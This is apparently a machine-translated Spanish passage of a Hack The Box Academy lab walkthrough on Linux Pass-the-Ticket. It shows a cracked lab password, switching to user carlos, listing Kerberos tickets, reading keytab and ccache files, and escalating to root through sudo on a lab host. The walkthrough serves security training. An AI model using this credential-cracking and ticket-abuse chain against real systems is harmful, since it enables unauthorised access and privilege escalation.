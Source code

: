 ![](https://academy.hackthebox.com/storage/modules/147/crackstation.jpg)

Como podemos ver en la imagen, la contraseña para el usuario Carlos es`Password5`. Ahora podemos iniciar sesión como Carlos.

### **Inicie sesión como Carlos**

Pase el boleto (PTT) de Linux

```
david@inlanefreight.htb@linux01:~$ su - carlos@inlanefreight.htbPassword:
carlos@inlanefreight.htb@linux01:~$ klist Ticket cache: FILE:/tmp/krb5cc_647402606_ZX6KFA
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:01:13  10/07/2022 21:01:13  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 11:01:13

```

### **Obteniendo más hashes**

Carlos tiene un Cronjob que usa un archivo KeyTab llamado`svc_workstations.kt`. Podemos repetir el proceso, descifrar la contraseña e iniciar sesión como`svc_workstations`.

---

# **Abusar de Keytab ccache**

Para abusar de un archivo CCACHE, todo lo que necesitamos es leer privilegios en el archivo. Estos archivos, ubicados en`/tmp`, solo puede ser leído por el usuario que los creó, pero si obtenemos acceso a la raíz, podríamos usarlos.

Una vez que iniciamos sesión con las credenciales para el usuario`svc_workstations`, podemos usar`sudo -l`y confirme que el usuario puede ejecutar cualquier comando como root. Podemos usar el`sudo su`comandar para cambiar el usuario a root.

### **Escalada de privilegio a la raíz**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
svc_workstations@inlanefreight.htb@10.129.204.23's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)
...SNIP...

svc_workstations@inlanefreight.htb@linux01:~$ sudo -l[sudo] password for svc_workstations@inlanefreight.htb:
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo suroot@linux01:/home/svc_workstations@inlanefreight.htb# whoamiroot

```
